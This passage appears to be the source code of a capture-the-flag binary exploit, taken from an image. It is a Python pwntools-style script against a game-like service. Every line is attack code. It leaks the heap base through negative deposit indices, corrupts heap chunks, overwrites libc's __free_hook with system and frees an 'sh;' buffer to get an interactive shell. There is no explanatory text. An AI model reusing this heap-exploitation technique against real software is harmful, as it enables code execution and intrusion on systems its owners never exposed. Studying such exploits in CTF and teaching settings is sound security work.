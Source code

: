 ```py
free_hook = libc_base + 0x1c9b28
system = libc_base + 0x30410
print(hex(libc_base))

withdraw(0)
exit_pc()
restart_game()



# Get heap leak
set_name(p64(0x4072d8) + p64(0x4072e0)[:-1])
create(1, 'qwe')
enter_pc()
deposit(-2)
view_stats(0)

p.recvuntil('Type: ')
heap_leak = int(codecs.encode(p.recvuntil("\n")[:-1][::-1], 'hex'), 16)
heap_base = heap_leak - 0x12ee0
print(hex(heap_base))

withdraw(0)
exit_pc()
for i in range(16):
	create(1, 'qwe')
restart_game()

set_name("ASD")
for i in range(10):
	create(1, (p64(heap_base+0x130f0)*2 + p64(5)).ljust(0x100, b"A") )
	enter_pc()
	deposit(0)
	exit_pc()
restart_game()

to_free = heap_base + 0x14040
print(hex(to_free))
set_name(p64(to_free))
create(1, "A"*0x100)
enter_pc()
deposit(-2)
exit_pc()
restart_game()


set_name("sh;\x00"*64)
create(1, p64(free_hook)*36)
create(1, p64(system)*32)
enter_pc()
deposit(-4)
exit_pc()
restart_game()


p.interactive()
p.close()
```
